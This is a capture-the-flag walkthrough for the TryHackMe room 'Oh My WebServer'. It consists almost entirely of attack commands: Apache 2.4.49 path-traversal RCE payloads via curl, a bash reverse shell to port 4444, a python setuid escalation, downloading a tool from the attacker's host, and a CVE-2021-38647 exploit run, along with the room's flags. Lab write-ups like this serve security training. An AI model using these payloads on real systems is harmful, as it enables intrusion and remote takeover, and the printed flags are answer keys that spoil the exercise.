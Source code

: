 # <div align="center">[Oh My WebServer](https://tryhackme.com/r/room/ohmyweb)</div>
<div align="center">Can you root me?</div><br>

<div align="center">
<img src="https://github.com/user-attachments/assets/2f7ecf5b-ab91-4a12-bfd5-bcd55e359857" height="200"></img>
</div>

## Task 1. oh-My-Webserver

### What is the user flag?

* ```nmap -sSCV <IP>```
* ```searchsploit Apache 2.4.49```
* ```https://www.exploit-db.com/exploits/50383```
* ```curl -s --path-as-is -d "echo Content-Type: text/plain; echo; /etc/passwd" http://<IP>/cgibin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"```
* ```curl 'http://<IP>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type:text/plain; echo; bash -i >& /dev/tcp/<IP>/4444 0>&1'```
* [Exploit](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Oh-My-WebServer/Exploit.sh)
* ```nc -lvnp 4444```
* ```ls -la```
* ```ifconfig```
* ```python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'’```
* ```cat /root/user.txt```
```
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
### What is the root flag?
* ```curl http://<my_own_IP>/nmap -o /tmp/nmap```
* ```./nmap -sSCV -p- 172.17.0.1```
* ```https://github.com/AlteredSecurity/CVE-2021-38647```
* ```python3 CVE-2021-38647.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root*'```
* [CVE-2021-38647](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Oh-My-WebServer/CVE-2021-38647.py)
```
THM{7f147ef1f36da9ae29529890a1b6011f}
```
### Done 🙂
